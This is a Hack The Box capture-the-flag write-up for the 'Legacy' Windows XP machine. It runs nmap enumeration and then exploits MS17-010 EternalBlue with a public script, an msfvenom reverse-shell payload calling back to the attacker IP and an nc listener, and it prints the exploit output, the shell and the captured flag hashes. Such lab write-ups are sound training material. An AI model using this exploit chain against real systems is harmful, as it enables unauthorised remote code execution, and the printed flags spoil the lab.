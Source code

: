 ```yaml
---
layout: single
title: Legacy - Hack The Box
excerpt: "N/A"
date: 2019-04-14
classes: wide
header:
  teaser: /assets/images/htb-writeup-legacy/legacy_logo.png
  teaser_home_page: true
  icon: /assets/images/windows.png
  unreleased: false
categories:
  - hackthebox
tags:  
  - windows
  - easy
  - smb
  - ms17-010
  - eternalblue
---
```


![](/assets/images/htb-writeup-legacy/legacy_logo.png){: style="float: right; width: 200px; margin-left: 2em"}

N/A<br><br><br><br><br><br><br>

----------------

# USER
## Enumeration

```bash
[root:/git/htb]# nmap -Pn -n -sCV 10.10.10.4 --open                                                                               (master✱)
  PORT    STATE SERVICE      VERSION
  139/tcp open  netbios-ssn  Microsoft Windows netbios-ssn
  445/tcp open  microsoft-ds Windows XP microsoft-ds
  Service Info: OSs: Windows, Windows XP; CPE: cpe:/o:microsoft:windows, cpe:/o:microsoft:windows_xp

  Host script results:
  |_clock-skew: mean: 5d01h01m15s, deviation: 1h24m50s, median: 5d00h01m15s
  |_nbstat: NetBIOS name: LEGACY, NetBIOS user: <unknown>, NetBIOS MAC: 00:50:56:b9:11:0b (VMware)
  | smb-os-discovery:
  |   OS: Windows XP (Windows 2000 LAN Manager)
  |   OS CPE: cpe:/o:microsoft:windows_xp::-
  |   Computer name: legacy
  |   NetBIOS computer name: LEGACY\x00
  |   Workgroup: HTB\x00
  |_  System time: 2021-03-01T12:38:45+02:00
  | smb-security-mode:
  |   account_used: <blank>
  |   authentication_level: user
  |   challenge_response: supported
  |_  message_signing: disabled (dangerous, but default)
  |_smb2-time: Protocol negotiation failed (SMB2)


[root:/git/htb]# nmap -p139,445 --script vuln 10.10.10.4                                                                          (master✱)
  PORT    STATE SERVICE
  139/tcp open  netbios-ssn
  445/tcp open  microsoft-ds

  Host script results:
  |_samba-vuln-cve-2012-1182: NT_STATUS_ACCESS_DENIED
  | smb-vuln-ms08-067:
  |   VULNERABLE:
  |   Microsoft Windows system vulnerable to remote code execution (MS08-067)
  |     State: LIKELY VULNERABLE
  |     IDs:  CVE:CVE-2008-4250
  |           The Server service in Microsoft Windows 2000 SP4, XP SP2 and SP3, Server 2003 SP1 and SP2,
  |           Vista Gold and SP1, Server 2008, and 7 Pre-Beta allows remote attackers to execute arbitrary
  |           code via a crafted RPC request that triggers the overflow during path canonicalization.
  |
  |     Disclosure date: 2008-10-23
  |     References:
  |       https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2008-4250
  |_      https://technet.microsoft.com/en-us/library/security/ms08-067.aspx
  |_smb-vuln-ms10-054: false
  |_smb-vuln-ms10-061: ERROR: Script execution failed (use -d to debug)
  | smb-vuln-ms17-010:
  |   VULNERABLE:
  |   Remote Code Execution vulnerability in Microsoft SMBv1 servers (ms17-010)
  |     State: VULNERABLE
  |     IDs:  CVE:CVE-2017-0143
  |     Risk factor: HIGH
  |       A critical remote code execution vulnerability exists in Microsoft SMBv1
  |        servers (ms17-010).
  |
  |     Disclosure date: 2017-03-14
  |     References:
  |       https://technet.microsoft.com/en-us/library/security/ms17-010.aspx
  |       https://blogs.technet.microsoft.com/msrc/2017/05/12/customer-guidance-for-wannacrypt-attacks/
  |_      https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2017-0143
```

**MS17-010** EternalBlue is the obvious attack path here, lets exploit it.

**a)** Download the script [**`send_and_execute.py`**](https://github.com/helviojunior/MS17-010)<br>
**b)** Create your malicious payload:<br>
    `msfvenom -p windows/shell_reverse_tcp LHOST=10.10.14.10 LPORT=4488 EXITFUNC=thread -f exe -a x86 --platform windows -o ms17-010.exe`

**c)** Execute!
```bash
[root:/git/htb/legacy]# python send_and_execute.py 10.10.14.10 ms17-010.exe                                                       (master✱)
  Traceback (most recent call last):
    File "send_and_execute.py", line 2, in <module>
      from impacket import smb, smbconnection
  ImportError: No module named impacket
```

**d)** If you get the error like above, it's because your python2 version is to new.<br>
: **d1)** uninstall pip3: `sudo apt-get remove python3-pip`<br>
  **d2)** Get pip3 installer: `curl https://bootstrap.pypa.io/get-pip.py -o get-pip.py`<br>
  **d3)** Install pip3: `python3 get-pip.py`<br>
  **d4)** Get pip2 installer: `curl https://bootstrap.pypa.io/2.7/get-pip.py -o get-pip.py`<br>
  **d5)** Install pip2: `python get-pip.py`<br>
  **d6)** Now you can install any pip2 modules: `pip install impacket`<br>
  **d7)** Make sure your python and python-pip are compatible. Python version 2.7.18 and pip 20.3.4 is preffered.<br>

```bash
[root:/git/htb/legacy]# python -m pip -V                                                                                          (master✱)
  pip 20.3.4 from /usr/local/lib/python2.7/dist-packages/pip (python 2.7)

[root:/git/htb/legacy]# python -V                                                                                                 (master✱)
  Python 2.7.18
```

**e)** EXECUTE EXPLOIT AGAIN!
```bash
[root:/git/htb/legacy]# python send_and_execute.py 10.10.10.4 ms17-010.exe                                                        (master✱)
  Trying to connect to 10.10.10.4:445
  Traceback (most recent call last):
    File "send_and_execute.py", line 1077, in <module>
      exploit(target, port, pipe_name)
    File "send_and_execute.py", line 794, in exploit
      conn = MYSMB(target, port)
    File "/git/htb/legacy/mysmb.py", line 118, in __init__
      smb.SMB.__init__(self, remote_host, remote_host, timeout=timeout)
    File "/usr/local/lib/python2.7/dist-packages/impacket/smb.py", line 2434, in __init__
      self._sess = nmb.NetBIOSTCPSession(my_name, remote_name, remote_host, host_type, sess_port, self.__timeout)
    File "/usr/local/lib/python2.7/dist-packages/impacket/nmb.py", line 893, in __init__
      timeout=timeout, local_type=local_type, sock=sock)
    File "/usr/local/lib/python2.7/dist-packages/impacket/nmb.py", line 752, in __init__
      self._sock = self._setup_connection((remote_host, sess_port), timeout)
    File "/usr/local/lib/python2.7/dist-packages/impacket/nmb.py", line 904, in _setup_connection
      raise socket.error("Connection error (%s:%s)" % (peer[0], peer[1]), e)
  socket.error: [Errno Connection error (10.10.10.4:445)] timed out
```

**f)** If above happens, reboot the box and execute a third time.
```bash
[root:/git/htb/legacy]# python send_and_execute.py 10.10.10.4 ms17-010.exe                                                        (master✱)
  Trying to connect to 10.10.10.4:445
  Target OS: Windows 5.1
  Using named pipe: browser
  Groom packets
  attempt controlling next transaction on x86
  success controlling one transaction
  modify parameter count to 0xffffffff to be able to write backward
  leak next transaction
  CONNECTION: 0x82208430
  SESSION: 0xe1a57430
  FLINK: 0x7bd48
  InData: 0x7ae28
  MID: 0xa
  TRANS1: 0x78b50
  TRANS2: 0x7ac90
  modify transaction struct for arbitrary read/write
  make this SMB session to be SYSTEM
  current TOKEN addr: 0xe2116d30
  userAndGroupCount: 0x3
  userAndGroupsAddr: 0xe2116dd0
  overwriting token UserAndGroups
  Sending file KCC2VY.exe...
  Opening SVCManager on 10.10.10.4.....
  Creating service vteS.....
  Starting service vteS.....
  The NETBIOS connection with the remote host timed out.
  Removing service vteS.....
  ServiceExec Error on: 10.10.10.4
  nca_s_proto_error
  Done
```
```bash
    [root:/opt/impacket]# nc -lvnp 4488                                                                                                (master)
      listening on [any] 4488 ...
      connect to [10.10.14.10] from (UNKNOWN) [10.10.10.4] 1031
      Microsoft Windows XP [Version 5.1.2600]
      (C) Copyright 1985-2001 Microsoft Corp.

      C:\WINDOWS\system32>

      C:\Documents and Settings\john\Desktop>type user.txt
        e69af0e4f443de7e36876fda4ec7644f

      C:\Documents and Settings\Administrator\Desktop>type root.txt
        993442d258b0e0ec917cae9e695d5713
```

# References
- [mysmb.py](https://github.com/worawit/MS17-010/blob/master/mysmb.py)
- [no module named impacket fix](https://webcache.googleusercontent.com/search?q=cache:w_5LbLWkSMwJ:https://stackoverflow.com/questions/66087250/fix-for-kali-impacket-issues-between-python-2-and-3-2020-4+&cd=4&hl=sv&ct=clnk&gl=se)
  